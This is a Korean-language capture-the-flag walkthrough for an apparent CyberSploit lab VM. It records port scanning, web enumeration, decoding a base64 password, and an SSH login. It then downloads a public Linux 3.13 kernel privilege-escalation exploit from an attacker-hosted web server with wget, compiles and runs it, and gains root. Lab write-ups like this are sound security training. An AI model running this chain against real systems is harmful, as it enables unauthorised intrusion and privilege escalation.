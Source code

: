 # \[1] 정보 수집
`nmap 192.168.56.0/24`[[nmap_cybersploit]]
`nmap 192.168.56.0/24 -sV -v -p-`[[nmap_cybersploit_d]]
```
Nmap scan report for 192.168.56.105
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 08:00:27:2A:8F:05 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> [!Note]
> victim: 192.168.56.105, Linux Web Server
> 22/tcp, 80/tcp 동작 중

## \[1-1] 사이트 접속
![[Pasted image 20240926111016.png]]
- 다른 기능을 실행되지 않는다.
- 디렉터리 또는 웹 서비스를 스캐닝한다.

## \[1-2] 디렉터리 스캐닝
`dirb http://192.168.56.105/`[[dirb_cybersploit_result]]

## \[1-3] 웹 서비스 스캐닝
`nikto -h 192.168.56.105 -C all`[[nikto_cybersploit_result]]

발견된 취약점
: anti-clickjacking, X-Content-Type-Options, Apache/2.2.22의 취약점, ubuntu Linux 버전에 따른 취약점

`#wp-config.php#`
: 워드프레스로 웹 서버 구축한 것으로 보인다.

## \[1-4] 디렉터리 접속
![[Pasted image 20240926112010.png]]
- base64 방식으로 인코딩된 것으로 예상되는 텍스트 발견
- https://dencode.com/ < 입력, 분석 진행

## \[1-5] 디코딩
![[Pasted image 20240926112407.png]]
플래그를 찾았다.:cybersploit{youtube.com/c/cybersploit}

## \[1-6] index.html 소스 분석
![[Pasted image 20240926112629.png]]
계정을 찾았다.: itsskv

## \[1-7] 원격 접속 시도
```
ssh itsskv@192.168.56.105
```
![[Pasted image 20240926113044.png]]
- 암호화 되어 있던 비밀번호를 입력하니 원격 접속에 성공했다.

## \[1-8] 파일 탐색
![[Pasted image 20240926113524.png]]
![[Pasted image 20240926113444.png]]
- 두 번째 플래그를 찾았다.: cybersploit{https:t.me/cybersploit1}

## \[1-9] 운영체제 취약점 탐색
### 1) 커널 버전 탐색
```
uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

### 2) 커널 버전의 취약점 탐색
`searchsploit linux 3.13.0`[[searchsploit_cybersploit_result]]
해당 버전의 악성 코드를 찾았다.
```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/1 | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/1 | linux/local/37293.txt
```

### 3) 악성 코드 정보 조사
![[Pasted image 20240926114543.png]]
- 로컬에서 사용자의 권한 상승이 가능한 악성 코드인 점 확인
![[Pasted image 20240926114704.png]]
- 마음에 들어서 설치했다.
![[Pasted image 20240926114945.png]]
- 사용 방법도 잘 설명되어 있다.
- 로컬 타입임으로 victim으로 옮겨야 된다.

# \[2] 공격 환경 구축
- 자료 조사를 통해 얻은 정보와 악성코드를 활용해 victim 장치에 악성 코드를 실행하한다.
- 이때 악성 코드는 local에서 구동 됨으로 victim에서 직접 실행할 수 있도록 악성 코드 파일을 victim으로 옮겨야 한다.
- 그러기 위해서는 공격자 pc를 파일 공유를 위한 웹 서버로 만들어 victim에서 wget을 통해 다운로드 받도록 한다.

## \[2-1] 서버 구축
- 데비안 계열 웹 서버 구축은 아파치로 진행한다. `apt install -y apache2 && systemctl start apache2`
- 파이썬도 가능 `python -m http.server 4444`
- `/var/www/html/37292.c`로 파일 옮긴다.

## \[2-2] 접속&다운로드
victim의 shell에서 접속해 파일 다운
`wget http://[칼리웹서버ip]:[포트]/37292.c && ls`

## \[2-3] 컴파일 후 실행
`gcc -o cyber 37292.c && ./cyber`

## \[2-4] 점검
`pwd` 또는 `who am i` 명령어로 root 권한을 취득했는지 확인

# \[3] 최종 플래그 찾기
```
cd /root
# ls
finalflag.txt
# cat ./finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```
- 획득한 루트 권한을 가지고 서버 내 디렉터리를 들쑤시고 다닐 수 있다.
- 최종 플래그를 찾으면 CTF 종료